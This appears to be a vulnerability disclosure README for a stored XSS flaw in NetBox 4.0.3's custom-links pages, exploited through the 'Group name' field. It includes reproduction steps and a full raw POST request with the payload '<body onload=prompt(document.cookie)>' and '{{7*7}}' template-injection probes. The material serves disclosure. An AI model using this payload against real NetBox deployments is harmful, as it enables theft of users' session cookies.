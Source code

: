 # **Description:**

Store XSS on the api /extras/custom-links/add/ or /extras/custom-links/{id}/edit of NetBox version 4.0.3 (https://github.com/netbox-community/netbox) allow remote attackers hijack user's cookies attack via param  Group name.

# **Proof of Concept:**

1, Add or Edit a Custom Link  with malicious script tags at param  Group Name

2, Access Object Type using Custom Link

3, Immediately boom, Stored XSS is executed

```POST /extras/custom-links/add/ HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:8000/extras/custom-links/add/
Content-Type: multipart/form-data; boundary=---------------------------300193789523924448502163188369
Content-Length: 1589
Origin: http://localhost:8000
Connection: close
Cookie: csrftoken=GPFwHFgQsCVRlXGYb2Efv9gKs2SXEiIN; sessionid=jv3bmrc6goo62qohlkckic0eolv7nrde
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=1

-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="csrfmiddlewaretoken"

oDVU0Umj4Oip7YXSKVBW5T4WgmBHvaJZUiqgxpsZmg36iLtGLN51qSawyejuZihC
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="name"

<h1>test</h1>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="object_types"

46
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="weight"

100
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="group_name"

<body onload=prompt(document.cookie)>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="button_class"

outline-dark
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"

on
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="new_window"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_text"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_url"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="_create"


-----------------------------300193789523924448502163188369--
```
![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/52d72e64-e6a9-44ac-8015-18fe37612e8a)

![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/6ce2c08d-9ead-480f-8d4f-1f3e2954abbb)

# Impact:

hijack user's cookies
